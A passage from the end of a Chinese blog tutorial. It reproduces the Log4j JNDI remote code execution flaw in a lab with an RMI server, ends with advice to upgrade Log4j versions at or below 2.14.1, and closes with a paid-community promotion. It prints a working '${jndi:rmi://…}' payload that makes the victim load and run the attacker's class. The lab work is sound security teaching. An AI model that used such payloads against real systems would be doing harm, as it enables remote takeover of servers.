 至此，log4j-rmi模块的代码就改造完成了。

### 第二次运行程序模拟真实场景

（1）启动log4j-rmi模块下的RmiServer类，会打印出如下日志信息。

```bash
RMI Listener 1099 port
```

说明RMI服务启动成功，并监听了1099端口。

（2）运行log4j-website模块下的Log4jDemo类，输出的日志信息如下所示。

```bash
执行代码
13:04:22.542 [main] INFO  io.binghe.log4j.Log4jDemo - 输出的信息是:${jndi:rmi://192.168.0.106:1099/test}
```

可以看到，这次在log4j-website模块下的Log4jDemo程序的命令行打印出了从Nginx中加载的RmiObj类的静态代码块中输出的信息，而Nginx中的RmiObj类其实就是骇客本地的RmiObj类。

至此，我们再次重现了Log4j的重大漏洞。

### 漏洞真实场景分析

这里真实场景分析中，远程站点服务器的执行流程与重现log4j-all漏洞中漏洞具体场景分析下的远程站点服务器执行流程相同，都是如下图所示。

![2022-05-30-006](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-006.png)

而骇客本地RMI服务程序的执行流程稍有不同，这里的流程如下图所示。

![2022-05-30-016](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-016.png)

理解起来也比较简单，这里，我就不再赘述了。

## 写在最后

这次的Log4j远程代码执行漏洞威胁很大，不仅很多开源软件受其影响，而且还有很多服务器也深受其害。所以，各位小伙伴们如果在项目中使用的Log4j的版本小于等于2.14.1，那就尽快升级到更高版本的Log4j吧，升级Log4j刻不容缓，大家赶紧行动起来。

## 关于星球

最近，冰河创建了【冰河技术】知识星球，《[SpringCloud Alibaba实战](https://mp.weixin.qq.com/mp/appmsgalbum?__biz=Mzg4MjU0OTM1OA==&action=getalbum&album_id=2337104419664084992&scene=173&from_msgid=2247500214&from_itemidx=1&count=3&nolastread=1#wechat_redirect)》专栏的源码获取方式会放到知识星球中，同时在微信上会创建专门的知识星球群，冰河会在知识星球上和星球群里解答球友的提问。

今天，【冰河技术】知识星球再开放200张优惠券，还没上车的小伙伴赶紧啦，再不上车就跟不上啦！！

### 星球提供的服务

冰河整理了星球提供的一些服务，如下所示。

加入星球，你将获得： 

1.学习SpringCloud Alibaba实战项目—从零开发微服务项目 

